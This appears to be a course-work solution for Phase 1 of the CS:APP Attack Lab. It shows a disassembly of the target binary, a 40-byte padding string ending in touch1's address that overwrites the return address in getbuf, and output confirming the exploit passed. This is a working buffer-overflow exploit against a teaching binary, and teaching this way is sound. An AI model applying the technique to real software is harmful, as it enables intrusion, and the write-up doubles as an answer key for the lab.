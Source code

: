 ```yaml
---
category:
  - Course Work
tag:
  - Attack Lab
  - Computer Organization and Architecture
title: "Attack Lab: Phase 1"
---
```


###### Run

```bash
objdump --disassemble ctarget > ctarget.asm
```

###### Read File `ctarget.asm`

```assembly
...
0000000000401b28 <getbuf>:
  401b28:	48 83 ec 28          	sub    $0x28,%rsp
...
0000000000401b3e <touch1>:
...
```

###### Write File `phase-1.txt`

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
3e 1b 40 00 00 00 00 00
```

###### Run

```bash
./hex2raw < phase-1.txt > phase-1.in
./ctarget -i phase-1.in
```

###### Terminal Output

```
Cookie: 0x3a9a6c2f
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
